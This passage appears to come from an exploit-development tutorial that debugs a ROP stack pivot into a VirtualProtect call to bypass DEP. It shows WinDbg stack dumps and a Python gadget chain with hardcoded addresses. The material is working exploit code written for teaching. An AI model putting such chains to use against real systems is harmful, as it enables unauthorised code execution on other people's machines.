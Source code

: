 ```text

> dds esp L1
00f4f228  766d5c80  // VirtualProtect Address

// step through pop ebp instruction

0:003> dds esp L1
00f4f22c  00f4f2e8

// observe that ESP does not point to the VirtualProtect address anymore
```

The remedy to this situation is to adjust `EBX` so that it doesn't point directly to the beginning of the skeleton. Instead, it should target one `DWORD` prior to the skeleton's start. This way, that particular `DWORD` serves as the sacrificial entry that gets popped into `EBP`. Here is another demonstration of how this would now work instead:

```text
62501573  mov esp, ebp

> dds ebp L7
00f4f224  00000000
00f4f228  766d5c80  // VirtualProtect Address
00f4f22c  00f4f2e8  // ret address
00f4f230  00f4f2e8  // lpAddress
00f4f234  00000001  // dwSize  
00f4f238  00000040  // flNewProtect
00f4f23c  625070e4  // lpflOldProtect

// step through mov esp, ebp instruction

62501575  pop ebp

> dds esp L1
00f4f224  00000000

// step through pop ebp instruction

0:003> dds esp L1
00f4f228  766d5c80

// observe that ESP does point to the VirtualProtect address
```

Lastly the following sequence of gadgets that will adjust `EBX` to point to the start of the `VirtualProtect` skeleton - `0x04`, move the pointer into `EAX` and execute the stack pivot:

```python
rop += struct.pack('<L', 0x625014d5) # pop eax ; ret 
rop += struct.pack('<L', 0xfffffff0) # 0 - 0x10
rop += struct.pack('<L', 0x62501afb) # pop edi ; ret
rop += struct.pack('<L', 0x62501afb) # pop edi ; ret
rop += struct.pack('<L', 0x62501e3a) # mov esi, eax ; call edi
rop += struct.pack('<L', 0x6250221c) # add esi, ebx ; ret
rop += struct.pack('<L', 0x62502412) # mov eax, esi ; pop esi ; pop edi ; ret
rop += struct.pack('<L', 0x41414141) # junk for esi
rop += struct.pack('<L', 0x41414141) # junk for edi 
# ! EAX now points to start of skeleton
rop += struct.pack('<L', 0x625017c0) # mov ebp, eax ; call  [0x625070E8]
```
